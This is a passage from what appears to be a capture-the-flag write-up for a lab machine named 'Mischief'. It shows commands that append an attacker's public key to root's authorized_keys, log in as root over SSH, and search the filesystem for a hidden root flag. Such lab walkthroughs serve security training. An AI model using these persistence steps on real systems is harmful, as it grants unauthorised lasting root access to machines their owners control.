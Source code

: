 On the target we can echo our public key into the `authorized_keys` file:
```
root@Mischief:~/.ssh# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEdz ... b71Nc2H+jcCCEYRoFzxfl root@kali' > authorized_keys
```

Then ssh directly as root:
```
root@kali: ssh -i thoseguys root@10.10.10.92
...
root@Mischief:~# 
```

Now can we read the flag?
```
root@Mischief:~# cat root.txt
The flag is not here, get a shell to find it!
```

Nope, it must be somewhere else, so we look for any other `root.txt` files on the machine:
```
root@Mischief:~# find / -name 'root.*' -type f 2>/dev/null
/usr/lib/python3/dist-packages/twisted/names/__pycache__/root.cpython-36.pyc
/usr/lib/python3/dist-packages/twisted/names/root.py
/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/usr/share/dns/root.ds
/usr/share/dns/root.key
/usr/share/dns/root.hints
/root/root.txt
root@Mischief:~# cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
ae155fad479c[REDACTED]
```

Finally, we have all the flags!
